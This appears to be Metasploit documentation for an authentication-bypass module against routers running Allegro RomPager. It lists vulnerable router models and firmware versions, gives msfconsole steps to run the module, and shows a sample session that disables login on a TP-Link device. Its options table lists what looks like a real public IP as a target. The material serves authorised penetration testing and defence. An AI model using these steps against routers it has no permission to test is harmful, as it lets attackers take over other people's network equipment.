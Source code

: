 ## Vulnerable devices

Following is list of devices and firmware versions with known values used for exploitation
0.   Azmoon   AZ-D140W - 2.11.89.0(RE2.C29)3.11.11.52_PMOFF.1
1.   Billion  BiPAC 5102S - Av2.7.0.23 (UE0.B1C)
2.   Billion  BiPAC 5102S - Bv2.7.0.23 (UE0.B1C)
3.   Billion  BiPAC 5200 - 2.11.84.0(UE2.C2)3.11.11.6                  
4.   Billion  BiPAC 5200 - 2_11_62_2_ UE0.C2D_3_10_16_0                
5.   Billion  BiPAC 5200A - 2_10_5 _0(RE0.C2)3_6_0_0                    
6.   Billion  BiPAC 5200A - 2_11_38_0 (RE0.C29)3_10_5_0                 
7.   Billion  BiPAC 5200GR4 - 2.11.91.0(RE2.C29)3.11.11.52                
8.   Billion  BiPAC 5200SRD - 2.10.5.0 (UE0.C2C) 3.6.0.0                  
9.   Billion  BiPAC 5200SRD - 2.12.17.0_UE2.C3_3.12.17.0                  
10.  Billion  BiPAC 5200SRD - 2_11_62_2(UE0.C3D)3_11_11_22                
11.  D-Link   DSL-2520U - Z1 1.08 DSL-2520U_RT63261_Middle_East_ADSL  
12.  D-Link   DSL-2600U - Z1_DSL-2600U                                
13.  D-Link   DSL-2600U - Z2_V1.08_ras                                
14.  TP-Link  TD-8616 - V2_080513                                   
15.  TP-Link  TD-8816 - V4_100528_Russia                            
16.  TP-Link  TD-8816 - V4_100524                                   
17.  TP-Link  TD-8816 - V5_100528_Russia                            
18.  TP-Link  TD-8816 - V5_100524                                   
19.  TP-Link  TD-8816 - V5_100903                                   
20.  TP-Link  TD-8816 - V6_100907                                   
21.  TP-Link  TD-8816 - V7_111103                                   
22.  TP-Link  TD-8816 - V7_130204                                   
23.  TP-Link  TD-8817 - V5_100524                                   
24.  TP-Link  TD-8817 - V5_100702_TR                                
25.  TP-Link  TD-8817 - V5_100903                                   
26.  TP-Link  TD-8817 - V6_100907                                   
27.  TP-Link  TD-8817 - V6_101221                                   
28.  TP-Link  TD-8817 - V7_110826                                   
29.  TP-Link  TD-8817 - V7_130217                                   
30.  TP-Link  TD-8817 - V7_120509                                   
31.  TP-Link  TD-8817 - V8_140311                                   
32.  TP-Link  TD-8820 - V3_091223                                   
33.  TP-Link  TD-8840T - V1_080520                                   
34.  TP-Link  TD-8840T - V2_100525                                   
35.  TP-Link  TD-8840T - V2_100702_TR                                
36.  TP-Link  TD-8840T - V2_090609                                   
37.  TP-Link  TD-8840T - V3_101208                                   
38.  TP-Link  TD-8840T - V3_110221                                   
39.  TP-Link  TD-8840T - V3_120531                                   
40.  TP-Link  TD-W8101G - V1_090107                                   
41.  TP-Link  TD-W8101G - V1_090107                                   
42.  TP-Link  TD-W8101G - V2_100819                                   
43.  TP-Link  TD-W8101G - V2_101015_TR                                
44.  TP-Link  TD-W8101G - V2_101101                                   
45.  TP-Link  TD-W8101G - V3_110119                                   
46.  TP-Link  TD-W8101G - V3_120213                                   
47.  TP-Link  TD-W8101G - V3_120604                                   
48.  TP-Link  TD-W8151N - V3_120530                                   
49.  TP-Link  TD-W8901G - V1_080522                                   
50.  TP-Link  TD-W8901G - V1,2_080522                                 
51.  TP-Link  TD-W8901G - V2_090113_Turkish                           
52.  TP-Link  TD-W8901G - V3_140512                                   
53.  TP-Link  TD-W8901G - V3_100603                                   
54.  TP-Link  TD-W8901G - V3_100702_TR                                
55.  TP-Link  TD-W8901G - V3_100901                                   
56.  TP-Link  TD-W8901G - V6_110119                                   
57.  TP-Link  TD-W8901G - V6_110915                                   
58.  TP-Link  TD-W8901G - V6_120418                                   
59.  TP-Link  TD-W8901G - V6_120213                                   
60.  TP-Link  TD-W8901GB - V3_100727                                   
61.  TP-Link  TD-W8901GB - V3_100820                                   
62.  TP-Link  TD-W8901N - V1_111211                                   
63.  TP-Link  TD-W8951ND - V1_101124,100723,100728                     
64.  TP-Link  TD-W8951ND - V1_110907                                   
65.  TP-Link  TD-W8951ND - V1_111125                                   
66.  TP-Link  TD-W8951ND - V3.0_110729_FI                              
67.  TP-Link  TD-W8951ND - V3_110721                                   
68.  TP-Link  TD-W8951ND - V3_20110729_FI                              
69.  TP-Link  TD-W8951ND - V4_120511                                   
70.  TP-Link  TD-W8951ND - V4_120607                                   
71.  TP-Link  TD-W8951ND - V4_120912_FL                                
72.  TP-Link  TD-W8961NB - V1_110107                                   
73.  TP-Link  TD-W8961NB - V1_110519                                   
74.  TP-Link  TD-W8961NB - V2_120319                                   
75.  TP-Link  TD-W8961NB - V2_120823                                   
76.  TP-Link  TD-W8961ND - V1_100722,101122                            
77.  TP-Link  TD-W8961ND - V1_101022_TR                                
78.  TP-Link  TD-W8961ND - V1_111125                                   
79.  TP-Link  TD-W8961ND - V2_120427                                   
80.  TP-Link  TD-W8961ND - V2_120710_UK                                
81.  TP-Link  TD-W8961ND - V2_120723_FI                                
82.  TP-Link  TD-W8961ND - V3_120524,120808                            
83.  TP-Link  TD-W8961ND - V3_120830                                   
84.  ZyXEL    P-660R-T3 - 3.40(BOQ.0)C0                        
85.  ZyXEL    P-660RU-T3 - 3.40(BJR.0)C0

## Verification Steps

  1. Start msfconsole
  2. Do: ```use auxiliary/admin/http/allegro_rompager_auth_bypass```
  3. Do: ```set rhost <ip>```
  4. Do: ```set rport <port>```
  5. Do: ```run```
  6. You should be able to login into the device without authentication
  
## Scenarios

  Example run against TP-Link TD-8817:
```
msf > use auxiliary/admin/http/allegro_rompager_auth_bypass 
msf auxiliary(allegro_rompager_auth_bypass) > show options

Module options (auxiliary/admin/http/allegro_rompager_auth_bypass):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOST      90.178.222.214   yes       The target address
   RPORT      80               yes       The target port
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       URI to test
   VHOST                       no        HTTP server virtual host


msf auxiliary(allegro_rompager_auth_bypass) > set rhost 192.168.1.1
rhost => 192.168.1.1
msf auxiliary(allegro_rompager_auth_bypass) > run

[+] Detected device:TP-Link TD-8817
[-] Bad response
[-] Bad response
[+] Good response, please check host, authentication should be disabled
[*] Auxiliary module execution completed
```
